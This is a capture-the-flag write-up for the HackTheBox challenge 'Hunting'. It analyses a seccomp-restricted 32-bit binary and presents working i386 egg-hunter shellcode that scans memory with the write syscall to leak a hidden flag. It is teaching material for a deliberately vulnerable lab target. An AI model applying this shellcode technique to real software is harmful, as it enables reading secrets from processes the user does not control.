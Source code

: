 ```yaml
---
title: Hunting - hackthebox writeup
---
```

# Hunting - hackthebox writeup

#### 1 Jul 2021

### sections:
- [overview](#overview)
- [disassembling](#disassembling)
- [debugging](#debugging)
- [solution](#solution)

## overview

Challenge hint:
> I've hidden the flag very carefully, you'll never manage to find it! NOTE: Goal is to find the flag, NOT a shell.

`file` tells us hunting is a 32 bit stripped ELF:

> hunting: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=2df7efc7d5a8a8e75a178f568bb114902c6955fd, for GNU/Linux 3.2.0, stripped

Let's begin by running the executable to see what it does.

    $ ./hunting
    ffffff
    zsh: segmentation fault  ./hunting

It waits for input then immediately seg faults; great. Let's load it into binaryninja and figure out why that's happening.

----------

## disassembling

The first thing that stands out is the reference to a flag placeholder at 0x4080. Its safe to assume that, on the challenge server, this will be replaced with the real flag.

![flag placeholder](images/hunting/disasm-0.png)

The first thing main does is call a function I'll rename get_random, which returns a random int such that `0x5fffffff < (rand() << 16) < 0xf7000000`

![random number function](images/hunting/disasm-1.png)

main then uses that random value to create a new 0x1000 byte memory page with mmap, which for some reason allows you to pick what address to create it at.

> mmap()  creates  a  new  mapping  in  the virtual address space of the calling process.  The
       starting address for the new mapping is specified in addr.  The  length  argument  specifies
       the length of the mapping (which must be greater than 0).

The flag is then copied from 0x4080 to the new page. Then, 0x4080 is overwritten with null bytes, and both the pointer to the new page and later the random int are set to 0. So, there's nothing left on the stack to point us to the flag in the new page.

![mmap and data copy](images/hunting/disasm-2.png)

Then, we call a short function, sub_1259, that modifies some security related behavior of the process with `prctl()`. The most interesting thing here is that you can specify a list of syscalls to restrict using arguments 0x16 and 0x2, PR_SET_SECCOMP and SECCOMP_MODE_FILTER respectively. Arg 3 contains a pointer to a filter struct, which we can dump with [seccomp-tools](https://github.com/david942j/seccomp-tools):

```
$ seccomp-tools dump ./hunting
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x20 0x00 0x00 0x00000000  A = sys_number
 0002: 0x35 0x0a 0x00 0x40000000  if (A >= 0x40000000) goto 0013
 0003: 0x15 0x09 0x00 0x0000000b  if (A == execve) goto 0013
 0004: 0x15 0x08 0x00 0x00000166  if (A == execveat) goto 0013
 0005: 0x15 0x07 0x00 0x00000127  if (A == openat) goto 0013
 0006: 0x15 0x06 0x00 0x00000005  if (A == open) goto 0013
 0007: 0x15 0x05 0x00 0x00000006  if (A == close) goto 0013
 0008: 0x15 0x04 0x00 0x00000008  if (A == creat) goto 0013
 0009: 0x15 0x03 0x00 0x00000056  if (A == uselib) goto 0013
 0010: 0x15 0x02 0x00 0x00000002  if (A == fork) goto 0013
 0011: 0x15 0x01 0x00 0x000000be  if (A == vfork) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

Running any of these syscalls will kill the process. This is why the description hints that we shouldn't try to get a shell!

Finally, main will call malloc, read 0x3c bytes from stdin to this new buffer, then call the buffer as if it was code. Thus, the seg fault. So, we have to write some shellcode to read the flag without calling execve or opening the binary.

![read and execute](images/hunting/disasm-3.png)

-------------------

## debugging

Now remember, this binary is stripped, so setting initial break points is going to be annoying. The first thing I do with these challenges is add a debugging symbol for the main function, at a minimum. First I calculate main's offset within the .text section. I get the address of main (0x1374) from my disassembler, and the start of .text (0x1120) from `objdump -h`. The difference is 0x254. Then we can use `objcopy` to add a function debugging symbol to the binary, as described [on stack overflow](https://stackoverflow.com/questions/5488322/adding-own-symbols-for-file-in-gdb). (I have to google this answer every time.)

    objcopy hunting --add-symbol main=.text:0x254,function,global hunting-sym

We can now happily set breakpoints within the main function.

To test our shellcode execution, I wrote a simple push/pop sequence along with some accompanying python code to assemble it using the asm function from pwntools. Just redirect stdout to a file and then we can use it in gdb.

```python
#!/usr/bin/env python3

from pwn import *
import re

shellcode = """
push eax
pop eax
"""

shellcode = re.sub(";.*\n", "\n", shellcode) # remove comments

shellcode = asm(shellcode, arch = 'i386', os = 'linux')

if len(shellcode) > 0x3c:
    raise Exception('shellcode too long', len(shellcode))

print("shellcode len:", len(shellcode), file=sys.stderr)
print(disasm(shellcode), file=sys.stderr)

sys.stdout.buffer.write(shellcode)
```

Now we're ready to test. Let's launch `gdb hunting-sym`, set a breakpoint at the call eax instruction main+217, and run with the shellcode input.

gdb hits the breakpoint, and we can step into our code with `si` and see the push/pop operations as expected. However, when we try to execute the next instruction with `ni` we get a seg fault:

```
→  0x5655a1a0                  push   eax
   0x5655a1a1                  pop    eax
   0x5655a1a2                  add    BYTE PTR [eax], al
   0x5655a1a4                  add    BYTE PTR [eax], al
──────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "hunting-sym", stopped 0x5655a1a0 in ?? (), reason: SIGSEGV
```

I'm using the gdb extension [GEF](https://gef.readthedocs.io/en/master/) which includes a command `vmmap` that displays an overview memory pages. You can see here that the heap, where our shellcode is loaded, is not executable even though the challenge clearly requires this.

```
gef➤  vmmap
0x5655a000 0x5657c000 0x00000000 rw- [heap]
```

I googled this issue and found some people suggesting to use a 32 bit machine, but that didn't work for me. Luckly, GEF includes an `mprotect` command which can set a memory region to rwx. So I ran `mprotect 0x5655a000` and my push/pop executed just fine. Now we need to figure out how to find the randomly placed memory page without a pointer to it.

While searching for a way to enumerate mapped memory and browsing random [syscalls](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit), I found that the access syscall contains the error:

> EFAULT pathname points outside your accessible address space.

This took me a while to find because I assumed that trying to read from memory that doesn't exist would cause a crash. It seems that, probably, any syscall that takes a buffer pointer can generate this EFAULT error. Write also does this, and we'll need it to output the flag later, so let's pass a bad buffer address to write and see what happens.

```nasm
mov eax, 0x4        ; syscall write
mov ebx, 0x1        ; fd stdout
mov ecx, 0x41414141 ; *buf
mov edx, 0x25       ; len
int 0x80
```

Great, it doesn't crash, and the syscall returns 0xfffffff2 in eax which must be the EFAULT error code. Now we can try looping through the possible page addresses, which we know from the constraints in the get_random function.

-----------

## solution

```nasm
_start:
    mov ecx, 0x5fff0000     ; minimum start address - 0x10000
    xor ebx, ebx
    inc ebx                 ; fd stdout
    push 0x25               ; flag len
    pop edx

loop:
    push 0x4                ; syscall write
    pop eax
    add ecx, 0x10000        ; minimum page difference because of rand << 16
    int 0x80
    cmp eax, 0xfffffff2     ; EFAULT
    jz loop                 ; loop if EFAULT
```

Run this shellcode and the program will output our test flag: HTB{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}. Then we can run the shellcode against the challenge server to get the real flag.

![netcat](images/hunting/nc.png)

And if you want to be fancy, you could append an exit routine to eliminate the seg fault:

```nasm
exit:
    xor eax, eax
    mov ebx, eax
    inc eax
    int 0x80
```
